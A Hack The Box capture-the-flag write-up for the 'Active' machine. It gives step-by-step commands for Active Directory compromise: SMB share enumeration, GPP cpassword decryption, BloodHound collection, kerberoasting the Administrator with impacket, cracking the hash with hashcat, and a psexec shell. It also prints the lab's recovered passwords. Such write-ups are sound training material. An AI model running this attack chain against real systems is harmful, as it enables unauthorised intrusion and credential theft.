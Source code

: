 ```yaml
---
layout: htb-ctf
title: "CTF Writeup: Active"
date: 2025-01-09 HH:MM:SS +0000
categories: [CTF, Writeup, [hackthebox]]
tags: [[Active Directory], [SMB], [Bloodhound] [htb]]
---
```


# Hack The Box - Active

## Description
Active is an easy machine that focusses on Windows Active Directory.<br>

## Information Gathering

### Step 1: Enumeration
We start with running good olde nmap to enumerate the target machine.<br>

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/active_TCP 10.129.92.76
```
![alt text](/assets/screenshots/active/image.png)<br>

We can use enum4linux to gain some insight into the Active Directory environment.
```bash
# enum4linux -a -U 10.129.92.76
```
![alt text](/assets/screenshots/active/image-1.png)<br>
We have access to the Replication SMB share!

We can double check with netexec.
```bash
# netexec smb 10.129.92.76 -u '' -p '' --shares
```
![alt text](/assets/screenshots/active/image-2.png)<br>

## Exploitation

### Step 2: Open SMB server
Now that we know that we have access to the Replication share on the target machine we can connect to this share using smbclient.

```bash
# smbclient "//10.129.92.76/Replication"
```
![alt text](/assets/screenshots/active/image-3.png)<br>

To make it easy for ourselves, we car now recursive download all the files we see here so we can search through them on our kali machine.<br>
```bash
# recurse ON
# mget *
```
![alt text](/assets/screenshots/active/image-4.png)<br>
Now we are able to display all the folders and files we downloaded from the Replication smb share.<br>
![alt text](/assets/screenshots/active/image-5.png)<br>
We can now check each file that seems interesting for us.<br>

We found a hash in the Groups.xml file.

Now we need to find a way to elevate privileges.<br>
![alt text](/assets/screenshots/active/image-6.png)<br>
This seems to be a GPP password. 
Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword<br>

To decrypt the password we can use cpp-decrypt.<br>
![alt text](/assets/screenshots/active/image-7.png)<br>

We found the credentials for the SVC_TGS account.<br>
```bash
# netexec smb 10.129.92.76 -u SVC_TGS -p 'GPPstillStandingStrong2k18'
```
![alt text](/assets/screenshots/active/image-8.png)<br>

### Step 3: Bloodhound
Now that we have found valid credentials for a user account on the target we can use these to enumerate the target and get information about the Active Directory environment.<br>
```bash
# netexec ldap 10.129.92.76 -u SVC_TGS -p 'GPPstillStandingStrong2k18' --bloodhound --collection ALL --dns-server 10.129.92.76
```
![alt text](/assets/screenshots/active/image-9.png)<br>

If we load this zip file we created with the previous command into bloodhound we can visualize the Active Directory structures.<br>
![alt text](/assets/screenshots/active/image-10.png)<br>

There are a lot of things bloodhound can show us. For this situation we are interested in the keberoasteble users.<br>
![alt text](/assets/screenshots/active/image-11.png)<br>
If we check the kerberoastable users we can see the Administrator!<br>

# Privilege Escalation

Now that we know that the Administrator user is a kerberoastable account we can use the impacket-GetUserSPNs tool to perform the kerberoast attack and get us a hash for the administrator user.
```bash
# sudo impacket-GetUserSPNs -request -dc-ip 10.129.92.76 active.htb/SVC_TGS
```
![alt text](/assets/screenshots/active/image-12.png)<br>

Now that we have a hash for the Administrator user we can crack and crack this hash. First we past it into a file  and second we load the file with a cracking tool such as john the ripper or hashcat.

Let's use hashcat in this situation and use the rockyou.txt file as the password file.
```bash
# sudo hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt --force
```
![alt text](/assets/screenshots/active/image-13.png)<br>
And we got the admin password!

To verify if these credentials work we can use netexec.
```bash
# netexec smb 10.129.92.76 -u Administrator -p 'Ticketmaster1968'
```
![alt text](/assets/screenshots/active/image-14.png)<br>

Let's login to this the target using impacket-psexec.
```bash
# impacket-psexec Administrator:"Ticketmaster1968"@10.129.92.76
```
![alt text](/assets/screenshots/active/image-16.png)<br>
Now we can grab the user.txt and root.txt files.

![alt text](/assets/screenshots/active/image-17.png)<br>
NOICE!

## Conclusion
To summarize this machine. It was a machine with open SMB shares that we could misuse to browse the Replication share containing a xml file with a user hash. After we got access to a valid user account we could kerberoast another user with administrator privileges.<br>

## Lessons Learned
- Check the SMB service for any open shares.
- Identify privileged service accounts using kerberoasting.